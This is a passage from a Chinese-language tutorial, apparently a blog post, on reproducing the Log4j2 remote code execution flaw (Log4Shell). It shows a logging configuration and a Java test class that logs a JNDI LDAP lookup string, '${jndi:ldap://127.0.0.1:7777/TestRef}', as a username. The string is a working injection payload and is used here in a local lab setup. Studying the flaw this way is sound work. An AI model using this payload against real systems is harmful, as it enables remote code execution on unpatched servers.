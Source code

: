 ```xml
        <SizeBasedTriggeringPolicy size="5 MB"/>
    </RollingFile>
    </appenders>
    <loggers>
        <root level="info">
            <appender-ref ref="Console"/>
            <appender-ref ref="RollingFile"/>
        </root>
    </loggers>
</configuration>
```

而其具体的输出则会输出到logs目录下的myLog.log文件中

之后的测试代码我也从这里贴出来：

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.util.function.LongFunction;

public class Test2 {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger(LongFunction.class);
        String username = "${jndi:ldap://127.0.0.1:7777/TestRef}";
        logger.info("User {} login in!", username);
    }
}
```

整个项目差不多长这样，Test.java不用管：

<img src="JAVA%E5%AE%89%E5%85%A8Log4j2%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/1713968846203.png" alt="1713968846203" style="zoom: 50%;" />
